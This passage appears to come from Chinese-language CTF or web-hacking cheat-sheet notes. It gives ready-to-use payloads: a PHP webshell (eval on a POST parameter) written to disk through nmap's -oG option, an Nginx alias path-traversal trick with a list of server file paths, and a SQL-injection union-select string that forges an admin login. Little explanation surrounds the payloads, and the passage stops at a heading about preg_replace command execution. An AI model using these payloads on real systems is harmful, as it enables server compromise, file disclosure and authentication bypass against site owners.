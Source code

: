 关键参数

```
-oG #可以实现将命令和结果写到文件
```

payload，单引号需要自行拼接

```
' <?= @eval($_POST["pd"]);?> -oG pd.phtml '
```

## Nginx

> 配置文件存放目录：/etc/nginx
> 主配置文件：/etc/nginx/conf/nginx.conf
> 管理脚本：/usr/lib64/systemd/system/nginx.service
> 模块：/usr/lisb64/nginx/modules
> 应用程序：/usr/sbin/nginx
> 程序默认存放位置：/usr/share/nginx/html
> 日志默认存放位置：/var/log/nginx
> 配置文件目录为：/usr/local/nginx/conf/nginx.conf

 alias 用于给 localtion 指定的路径设置别名 , 在路径匹配时 , alias 会把 location 后面配置的路径丢弃掉 , 并把当前匹配到的目录指向到 alias 指定的目录 . 

比如

```
location /web-img {
   alias /images/;
   autoindex on;
}
```

访问

```
url/web-img../遍历
```



## 联合查询构造虚拟数据登录

```
1' union select 1,'admin','202cb962ac59075b964b07152d234b70'#
```

使用联合查询可以临时增加一条数据，帐号admin密码123

所以直接传

```
name=1' union select 1,'admin','202cb962ac59075b964b07152d234b70'#&pwd=123
```

就可以直接登录

## preg_replace()命令执行
